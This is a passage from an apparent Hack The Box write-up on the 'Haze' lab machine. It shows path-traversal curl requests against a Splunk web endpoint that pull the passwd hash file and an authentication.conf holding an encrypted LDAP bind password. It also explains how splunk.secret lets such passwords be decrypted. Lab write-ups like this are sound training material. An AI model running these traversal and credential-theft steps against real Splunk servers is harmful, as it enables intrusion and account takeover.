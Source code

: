 ##### Interesting files

I read the Splunk documentation and find some interesting file paths, that might be valid for this attack:
- `/etc/passwd` - is Splunk's internal password database.
- `/etc/auth/splunk.secret` - the secret that is used to encrypt passwords to `$1$` and `$7$`.  This looks like hashes, but they are not and can actually be decrypted.
- `/etc/system/local/authentication.conf` - what authentication type Splunk is using.

Things to note:
- `$1$` and `$7$` encrypted passwords can be decrypted using `splunksecrets` (https://github.com/HurricaneLabs/splunksecrets) and the `/etc/auth/splunk.secret`. 
- `/etc/passwd` might contain `$6$` (sha512crypt) password hashes.
- `/etc/system/local/authentication.conf` shows what authentication type is used.  Is Splunk using the internal Splunk password database (`/etc/passwd`), LDAP, Scripted, SAML or ProxySSO?

### Exploitation

#### Path Traversal

With this knowledge in-hand, I retrieve the content of the 3 files.

The built-in Splunk password database reveals 4 users and their sha512crypt hashes.
`hashcat` was unable to crack any of the password hashes.
The file is potentially still important as it shows 3 usernames with the e-mail address `@haze.htb`.
```
fcoomans@kali:~/htb/haze$ curl -s "http://dc01.haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../Program%20Files/Splunk/etc/passwd"
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```

The authentication configuration file shows that LDAP is used and not the built-in Splunk password database.
It also reveals a `$7$` encrypted password for user `Paul Taylor`.  I need to get `splunk.secrets` and `splunksecrets` to decrypt this encrypted password.
```
fcoomans@kali:~/htb/haze$ curl -s "http://dc01.haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../Program%20Files/Splunk/etc/system/local/authentication.conf"
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
```